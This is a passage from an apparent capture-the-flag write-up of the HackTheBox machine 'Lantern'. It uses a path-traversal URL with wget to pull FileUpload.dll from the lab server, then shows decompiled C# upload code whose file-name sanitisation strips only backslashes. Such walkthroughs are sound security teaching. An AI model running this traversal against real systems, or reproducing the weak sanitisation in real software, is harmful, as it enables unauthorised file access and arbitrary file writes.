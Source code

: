 ```
                file.save(destination)
            else:
                return "Only PDF files allowed!"
        except:
            return "Something went wrong!"
    return "Thank you! We will contact you very soon!"

```

So I’ll have to look at how the FileUpload module works.

#### DLL Reversing

I’ll use the file read vulnerability in the main site to get the binary:

```

oxdf@hacky$ wget 'http://lantern.htb/PrivacyAndPolicy?lang=.&ext=/../../../opt/components/FileUpload.dll' -O FileUpload.dll
--2024-08-21 15:46:49--  http://lantern.htb/PrivacyAndPolicy?lang=.&ext=/../../../opt/components/FileUpload.dll
Resolving lantern.htb (lantern.htb)... 10.10.11.29
Connecting to lantern.htb (lantern.htb)|10.10.11.29|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11776 (12K) [application/x-msdos-program]
Saving to: ‘FileUpload.dll’

FileUpload.dll             100%[=====================================>]  11.50K  --.-KB/s    in 0s      

2024-08-21 15:46:50 (53.1 MB/s) - ‘FileUpload.dll’ saved [11776/11776]

oxdf@hacky$ file FileUpload.dll 
FileUpload.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows

```

It’s a 32-bit .NET assembly.

I’ll open the binary in DotPeek. The binary has a single namespace, `FileUpload`, with two classes, `Component` and `_Imports`:

![image-20240821155312589](/img/image-20240821155312589.png)

This task handles the file upload:

```

    private async 
    #nullable enable
    Task LoadFiles(InputFileChangeEventArgs e)
    {
      this.isLoading = true;
      this.loadedFiles.Clear();
      foreach (IBrowserFile file in (IEnumerable<IBrowserFile>) e.GetMultipleFiles(this.maxAllowedFiles))
      {
        try
        {
          this.loadedFiles.Add(file);
          string FileName = file.Name.Replace("\\", "");
          string path = Path.Combine("/var/www/sites/lantern.htb/static/images", FileName);
          if (!this.isFileExist(FileName))
          {
            await using (FileStream fs = new FileStream(path, FileMode.Create))
            {
              await file.OpenReadStream(this.maxFileSize).CopyToAsync((Stream) fs);
```